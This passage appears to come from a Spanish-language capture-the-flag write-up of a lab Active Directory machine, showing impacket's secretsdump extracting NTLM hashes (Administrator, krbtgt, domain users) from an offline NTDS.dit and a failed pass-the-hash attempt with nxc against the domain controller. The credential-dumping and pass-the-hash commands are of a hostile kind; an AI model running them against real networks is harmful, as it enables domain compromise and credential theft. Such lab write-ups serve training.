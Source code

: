 ```bash
│   └── ntds.dit
├── Backup_Credentials.7z
└── registry
    ├── SECURITY
    └── SYSTEM

3 directories, 4 files
```

Exportaremos los hashes NTLM del archivo `NTDS.dit`, verificamos que logramos obtener los hashes de todos los usuarios del AD, entre ellos las del usuario `Administrator`.

```bash
❯ secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd7e7d8797c1ccd58d95e4fb25cb7bdd4
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d27644ab3070f72ec264fcb413d75299
[*] Reading and decrypting hashes from Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7bf62b9c45112ffdadb7b6b4b9299dd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1001:aad3b435b51404eeaad3b435b51404ee:fe4767309896203c581b9fc3c5e23b00:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:454fcbc37690c6e4628ab649e8e285a5:::
infiltrator.htb\winrm_svc:1104:aad3b435b51404eeaad3b435b51404ee:84287cd16341b91eb93a58456b73e30f:::
infiltrator.htb\lan_managment:1105:aad3b435b51404eeaad3b435b51404ee:e8ade553d9b0cb1769f429d897c92931:::
infiltrator.htb\M.harris:1106:aad3b435b51404eeaad3b435b51404ee:fc236589c448c620417b15597a3d3ca7:::
infiltrator.htb\D.anderson:1107:aad3b435b51404eeaad3b435b51404ee:627a2cb0adc7ba12ea11174941b3da88:::
infiltrator.htb\L.clark:1108:aad3b435b51404eeaad3b435b51404ee:627a2cb0adc7ba12ea11174941b3da88:::
infiltrator.htb\O.martinez:1109:aad3b435b51404eeaad3b435b51404ee:eb86d7bcb30c8eac1bdcae5061e2dff4:::
infiltrator.htb\A.walker:1110:aad3b435b51404eeaad3b435b51404ee:46389d8dfdfcf0cbe262a71f576e574b:::
infiltrator.htb\K.turner:1111:aad3b435b51404eeaad3b435b51404ee:48bcd1cdc870c6285376a990c2604531:::
infiltrator.htb\E.rodriguez:1112:aad3b435b51404eeaad3b435b51404ee:b1918c2ce6a62f4eee11c51b6e2e965a:::
```

Al intentar validar si podemos realizar _**Pass-The-Hash**_ con este hash NTLM del usuario `Administrator`, comprobamos que este hash ya no es válido y no podemos autenticarnos como él.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'Administrator' -H '7bf62b9c45112ffdadb7b6b4b9299dd2'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\Administrator:7bf62b9c45112ffdadb7b6b4b9299dd2 STATUS_LOGON_FAILURE 
```

### Transforming a NTDS.dit file to SQLite file (ntdsdotsqlite)
